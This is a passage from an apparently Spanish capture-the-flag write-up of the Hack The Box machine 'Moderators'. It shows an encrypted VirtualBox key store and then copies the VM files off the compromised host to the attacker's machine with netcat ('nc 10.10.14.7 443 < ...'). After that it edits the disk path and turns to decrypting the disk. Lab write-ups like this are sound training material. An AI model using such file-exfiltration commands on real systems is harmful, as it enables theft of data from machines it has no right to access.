 En el archivo de configuración, se puede ver que el disco está cifrado

```null
          <Property name="CRYPT/KeyId" value="Moderator 1"/>
          <Property name="CRYPT/KeyStore" value="U0NORQABQUVTLVhUUzI1Ni1QTEFJTjY0AAAAAAAAAAAAAAAAAABQQktERjItU0hB&#13;&#10;MjU2AAAAAAAAAAAAAAAAAAAAAAAAAEAAAABUQgV7yASjqRRgfezqVXSqcDjNzg1J&#13;&#10;jH/ENK/ozVskTyAAAADpYIvN2MBwhohZoxyfHl5d6YterYwh8lwMQ+5peBbjLCBO&#13;&#10;AABUYpGmB0lDsJbqgNsq451Bed5tHD8X6iXWLmJ6v6f7y2A9CABAAAAAo4alQy6T&#13;&#10;jyDI+8mvRgp4wXkMGavRxR6cC+ckk5yUgVhhgPxKNBNdhIHkNtjBMrj0uaVQ3ksk&#13;&#10;gwC6MrGLZFhl1g=="/>
```

Me transfiero los archivos a mi equipo

En la máquina víctima
```null
john@moderators:~/stuff/VBOX$ nc 10.10.14.7 443 < 2019-08-01.vbox 

En mi máquina

```null
nc -nlvp 443 > 2019-08-01.vbox
nc -nlvp 443 > 2019.vd1
```

Para poder importarla en VirtualBox, hay que cambiar la etiqueta donde se indica la ruta donde se encuentra el disco.

```null
<HardDisk uuid="{12b147da-5b2d-471f-9e32-a32b1517ff4b}" location="/home/rubbx/Desktop/HTB/Machines/Moderators/2019.vdi" format="VDI" type="Normal">
```

Añado la máquina a VirtualBox

<img src="/writeups/assets/img/Moderators-htb/20.png" alt="">

Aparecerá un error, y no lo puedo solucionar. Creo que es porque la máquina está encriptada, pero el VirtualBox no lo reconoce, ya que esa opción está desactiva y para habilitarla necesito saber la contraseña que por ahora no la tengo

<img src="/writeups/assets/img/Moderators-htb/21.png" alt="">

Para poder desencriptar el disco, necesito pasarle el UUID al tool de VirtualBox
